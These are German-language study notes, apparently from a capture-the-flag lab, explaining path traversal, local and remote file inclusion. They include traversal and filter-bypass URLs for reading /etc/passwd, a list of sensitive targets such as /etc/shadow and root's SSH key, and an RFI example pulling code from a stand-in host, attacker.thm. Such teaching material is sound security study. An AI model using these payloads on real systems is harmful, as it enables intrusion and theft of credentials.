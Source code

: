 ### Was Das?
Generell werden File Inclusions aufgeteilt in Local und Remote File Inclusions (LFI und RFI) und generelles Directory Traversal. 

Die Lücken können Auftreten Da Websites Teilweise so geschrieben sind das sie z.B. Bilder, statischen Text usw., über Parameter anfordern. Parameter sind Abfrageparameter-Strings, die an die URL angehängt werden und zum Abrufen von Daten oder zur Durchführung von Aktionen auf der Grundlage von Benutzereingaben verwendet werden können. Im folgenden Diagramm sind die wesentlichen Bestandteile einer URL dargestellt.

https://imgur.com/ar0UxEZ

Das Hauptproblem bei diesen Schwachstellen ist die Eingabevalidierung, bei der die Benutzereingaben nicht bereinigt oder validiert werden und der Benutzer sie kontrolliert. Wenn die Eingabe nicht validiert wird, kann der Benutzer jede beliebige Eingabe an die Funktion übergeben, was die Sicherheitslücke verursacht. 


### Path Traversal
Auch bekannt als Directory Traversal. Eine Web-Sicherheitslücke ermöglicht es einem Angreifer, Betriebssystem-Ressourcen, wie z. B. lokale Dateien auf dem Server, auf dem eine Anwendung läuft, zu lesen. Der Angreifer nutzt diese Sicherheitslücke aus, indem er die URL der Webanwendung manipuliert und missbraucht, um Dateien oder Verzeichnisse zu finden und darauf zuzugreifen, die außerhalb des Stammverzeichnisses der Anwendung gespeichert sind.

###### dot dot Slash angriff
nutzt die funktion das mit jedem ../ das Directory eins nach oben gemoved wird quasi wie cd..
Wenn der Angreifer einen Eintrittspunkt wie zum Beispiel ein ***get.php?file=*** darauf hin kann der Angreifer etwas in diese richtung schicken 

```
http://webapp.thm/get.php?file=../../../../etc/passwd
```

Angenommen, es gibt keine Eingabeüberprüfung, und statt auf die PDF-Dateien unter /var/www/app/CVs zuzugreifen, ruft die Webanwendung Dateien aus anderen Verzeichnissen ab, in diesem Fall /etc/passwd. Jeder .. Eintrag bewegt sich um ein Verzeichnis, bis er das Stammverzeichnis / erreicht. Dann wechselt er das Verzeichnis zu /etc und liest von dort die Datei passwd.

Beispiel Bild: 
https://imgur.com/szBSssW

Intressant Locations an die man Navigieren kann

| **Location**                  | **Description**                                                                                                                                                   |
| ----------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `/etc/issue`                  | contains a message or system identification to be printed before the login prompt.                                                                                |
| `/etc/profile`                | controls system-wide default variables, such as Export variables, File creation mask (umask), Terminal types, Mail messages to indicate when new mail has arrived |
| `/proc/version`               | specifies the version of the Linux kernel                                                                                                                         |
| `etc/passwd`                  | has all registered users that have access to a system                                                                                                             |
| `/etc/shadow`                 | contains information about the system's users' passwords                                                                                                          |
| `/root/.bash_history`         | contains the history commands for `root` user                                                                                                                     |
| `/var/log/dmessage`           | contains global system messages, including the messages that are logged during system startup                                                                     |
| `/var/mail/root`              | all emails for `root` user                                                                                                                                        |
| `/root/.ssh/id_rsa`           | Private SSH keys for a root or any known valid user on the server                                                                                                 |
| `/var/log/apache2/access.log` | the accessed requests for `Apache` web server                                                                                                                     |
| `C:\boot.ini`                 | contains the boot options for computers with BIOS firmware                                                                                                        |


#### Current Directory Trick
Wird Genutzt wenn der Developer begriffe/Pfade gefiltert hat wie z.B. /etc/passwd
Was man jetzt machen kann ist der "Current Directory Trick" dieser funktioniert ähnlich wie "cd". Während cd.. uns ein Directory nach oben bringt bleibt cd. im selben Directory 
Bsp.:
http://webapp.thm/index.php?lang=/etc/passwd/.

### LFI

Kann wie Path Traversal die dot dot Slash methode Benutzen. Kann aber auch schon je nach dem einfachere Variante nutzen 


wie z.B. die gesuchte Datei an die URL anheften. Dies funktioniert wenn im Query code kein Direcory Spezifiziert ist. 
Bsp.
http://10.10.208.102//lab1.php?file=/etc/passwd


Wenn ein Directory Spezifiziert ist kann die Dot Dot Slash methode verwendet werden. 
Bsp.:
http://10.10.208.102/lab2.php?file=../../../../etc/passwd


Vorgehen beim Angreifen einer "Black Box"
Bsp.:
Entry Point 
http://webapp.thm/index.php?lang=EN
Beim eingeben eines Inputs kommt diese Fehlermeldung
```
Warning: include(languages/THM.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```
Was Erfahren wir aus der Meldung? 
-> Da wir THM als input genommen haben erfahren wir das es eine Include Funktion gibt (So im etwa: include(languages/THM.php);)
-> Wir sehen das der Input via PHP gehandelt wird
-> Der Pfad der Applikation ist /var/www/html/THM-4/

	-> Mögliche Angriffmethodik ist Dot Dot Slash 
	http://webapp.thm/index.php?lang=../../../../etc/passwd

Fehlermeldung aus dem Befehl:

```
Warning: include(languages/../../../../../etc/passwd.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```
Rückschlüsse aus der Meldung: 
-> Anscheinend sind wir aus dem Verzeichniss raus gekommen allerdings wird an den input noch .php gehangen
-> das .php kann via eines NULLBYTES entfernt werden (%00)
- Modifizierte Angriffsmethodik:
- http://webapp.thm/index.php?lang=../../../../etc/passwd%00
**Note:** the %00 trick is fixed and not working with PHP 5.3.4 and above.

#### Was Tun wenn ../ durch durch Leerzeichen Ersetzt?

Einfach da nur der erste Substring durch PHP ersetzt wird kann man das wie Folgt bypassen: 
 ....//....//....//....//....//etc/passwd
 Bildliche Erklärung:
 https://imgur.com/aYrz6QC

#### Was tun wenn der Dev die Anfrage Forced durch ein Spezielles Directory laufen zu lassen?
Beispielpfad:
http://webapp.thm/index.php?lang=languages/EN.php
kann wie Folgt ausgehebelt werden: 
http://webapp.thm/index.php?lang=languages/../../../../../etc/passwd


### RFI -Remote File Incluson
Remote File Inclusion (RFI) ist eine Technik zur Einbindung von Remote Files in eine anfällige Anwendung. Wie LFI tritt RFI auf, wenn Benutzereingaben nicht ordnungsgemäß bereinigt werden, so dass ein Angreifer eine externe URL in die Include-Funktion einfügen kann. Eine Voraussetzung für RFI ist, dass die Option allow_url_fopen aktiviert sein muss.
Das Risiko eines RFI-Angriffs ist höher als das eines LFI-Angriffs, da RFI-Schwachstellen es einem Angreifer ermöglichen, Remote Command Execution (RCE) auf dem Server zu erlangen. 

Weitere Folgen eines erfolgreichen RFI-Angriffs sind:

- Offenlegung sensibler Informationen
- Cross-Site Scripting (XSS)
- Denial of Service (DoS)

Bildliches Beispiel
https://imgur.com/7JxRw1l

Schriftliches Beispiel 
Eine Website mit der URL http://webapp.thm/ hat eine Input möglichkeit für Sprachpakete die nicht korrekt gefiltert wird. 
Wir hosten einen Server der eine datei namens cmd.txt hostet (URL  http://attacker.thm/cmd.txt)
Dem Zielserver senden wir die Anfrage "http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt"
Dadurch das der Input vom Ziel nicht validiert wird geht die URL in die Include Funktion und sendet damit eine GET Request an unseren server und fragt die cmd.txt ab. 
Wenn die cmd.txt erfolgreich abgerufen ist führt die PHP Funktion diese auch direkt aus und wir bekommen die rückmeldung das dass script lief 

Hier kann man auch Beispielhaft .php Reverseshells nutzen 
https://pentestmonkey.net/tools/web-shells/php-reverse-shell
